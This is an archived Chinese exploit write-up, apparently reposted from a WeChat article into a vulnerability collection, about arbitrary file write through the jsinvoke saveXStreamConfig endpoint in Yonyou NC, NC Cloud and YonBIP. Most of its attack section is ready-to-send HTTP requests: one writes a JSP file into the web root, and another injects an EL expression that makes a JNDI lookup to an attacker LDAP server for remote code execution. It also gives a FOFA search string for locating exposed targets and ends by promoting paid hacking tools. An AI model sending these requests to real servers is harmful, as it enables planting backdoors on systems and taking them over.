



# 用友NC/NCCloud/YonBIP jsinvoke saveXStreamConfig任意写入及JNDI链

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：用友NC/NCCloud/YonBIP；jsinvoke saveXStreamConfig任意写入及JNDI链
- 版本、配置及部署条件：NC63/633/65/NCC1903–2111/BIP2207
- 认证与权限前提：带/不带session变体；JNDI依赖未列
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 第一POC写12311纯文本只证写入，EXP另依赖EL/JNDI
- 请求头体缺空行；EXP缺Content-Type，FOFA误取指纹标题
- 同153等，第三方工具回显不是root cause；缺补丁，推广占半篇

## 操作风险

在线解密或外部服务可能收到凭据及敏感内容。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/OO6GIKWm9ld05Vc2WQhkRg)

用友 NC 及 NC Cloud 系统存在任意文件上传漏洞，攻击者可通过 uapjs（jsinvoke）应用构造恶意请求非法上传后门程序，此漏洞可以给 NC 服务器预埋后门，从而可以随意操作服务器。

**影响范围**

NC63、NC633、NC65、NC Cloud1903、NC Cloud1909、NC Cloud2005、NC Cloud2105、NC Cloud2111、YonBIP 高级版 2207

 **FOFA 指纹**

app="用友 - NC-Cloud"

**POC**

```http
POST /uapjs/jsinvoke?action=invoke HTTP/1.1
Host: XXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: cookiets=1689835770151; JSESSIONID=2BEFF983D118B58B579F45C703152075.server
Upgrade-Insecure-Requests: 1
If-Modified-Since: Mon, 11 May 2020 15:41:36 GMT
If-None-Match: W/"1571-1589211696000"
Content-Type: application/x-www-form-urlencoded
Content-Length: 178
{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["12311","webapps/nc_web/123.jsp"]}

```

**效果**



**EXP**

```http
POST /uapjs/jsinvoke?action=invoke HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 306
{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://vps:port/TomcatBypass/TomcatEcho')}","webapps/nc_web/222.jsp"]}

```





公众号中之前提及的所有工具，均放在 APP“知识星球”，星球会员 **100** **元**加入，内含大量工具，包含公众号之前发过的工具，均可免费下载。另可享受本人在线教学福利。


小知识

**依据《刑法》第 285 条第 3 款的规定，犯提供非法侵入或者控制计算机信息系罪的，处 3 年以下有期徒刑或者****拘役****，并处或者单处****罚金****; 情节特别严重的，处 3 年以上 7 年以下有期徒刑，并处罚金。**


声明

**本文提供的技术参数仅供学习或运维人员对内部系统进行测试提供参考，未经授权请勿用本文提供的技术进行破坏性测试，利用此文提供的信息造成的直接或间接损失，由使用者承担。**


欢迎 **在看**丨**留言**丨**分享至朋友圈** 三连

 **好文**推荐****  

*   [免登录读取别人的 WX 聊天记录](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247487346&idx=1&sn=9810af860afd8f94e1cf2ccf81a7e13f&chksm=c20a2c55f57da543fe1bdc21e670d036cb10efccf4d102a4bf9cb7c3956786858230c8172b54&scene=21#wechat_redirect)  
    
*   [实战 | 监控里的秘密](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484122&idx=1&sn=88801391b60d3b77df97026e9e495ec2&chksm=c20a21fdf57da8eb9641bff94074f2aa736d12e3a48098d33e66aca17ded9267e6686ddb9452&scene=21#wechat_redirect)
    
*   [木马工具 | 控制别人的电脑，非常简单！](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484445&idx=1&sn=bb60b1a6a69c8c2d31a6e8d5fb09a638&chksm=c20a273af57dae2c544388af5d942e9100225f400d055274123dcd13784c21ec598b4f2e7591&scene=21#wechat_redirect)
    
*   [BlueLotus 联动 DVWA，实现 xss 窃取 cookie](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247486084&idx=1&sn=62d3d7448aa06365d15157326e59b8e7&chksm=c20a29a3f57da0b56f4e5323d7c6b05e91b597df2697934e7903c27a730e2f4443983216f289&scene=21#wechat_redirect)  
    
*   [实战 | 逻辑漏洞绕过](http://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247509911&idx=1&sn=c37f416483c1ab4bc7b8ee13a379280a&chksm=9acd7708adbafe1ef9f9f030e9de25446eacec18bd15df2f76ba21a4031c7f827563c03bb907&scene=21#wechat_redirect)  
    
*   [路边的 u 盘你不要捡，山下的女人是老虎~](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485822&idx=1&sn=a5e05071dccc53fecc4b69d513489444&chksm=c20a2a59f57da34f00a26cab87251fffb1ca7ca51c658fea0d5e7f08788c1d59d86f95fc137a&scene=21#wechat_redirect)  
    
*   [永恒之蓝彩虹猫联动](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485315&idx=1&sn=c64f1d550507b15b7655a6ec18e857de&chksm=c20a24a4f57dadb219c1ef76e18fad92932596782d9d7c10f264cb23245af31d5624666de16f&scene=21#wechat_redirect)
    
*   [5min 学渗透 | wifi 断网攻击、暴力攻击](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485194&idx=1&sn=c425ac374dde652c5ac820b8b7aa5fdd&chksm=c20a242df57dad3b2fe01e302955f3ad3f25cde0ab8e08bb21a431c24f3acad965472efcdbed&scene=21#wechat_redirect)
    
*   [5min 学渗透 | 你的手机是如何被监控的?](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485149&idx=1&sn=242ab51f1c6797cdff86af09a6ef6a1d&chksm=c20a25faf57dacec21276c8509c453a4c8446fdf44494ec2663ca61aab494ca7edc1eedc8694&scene=21#wechat_redirect)  
    
*   [5min 学渗透 | 简单制作钓鱼 wifi 01](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485124&idx=1&sn=21899d53b348d7daa9e73b464fb9d423&chksm=c20a25e3f57dacf54e101b31ae6b292f822fc012795b604df0f15231072e80d887e8d98090bf&scene=21#wechat_redirect)
    
*   [实用小工具 | 破解 office 三件套加密密码](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485123&idx=1&sn=21bc7ca9cc48d0270667709dc448410f&chksm=c20a25e4f57dacf27d5fb2d90f1ac6c04ac36ca5549023c4d83c85ff5464632563bad975cd50&scene=21#wechat_redirect)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
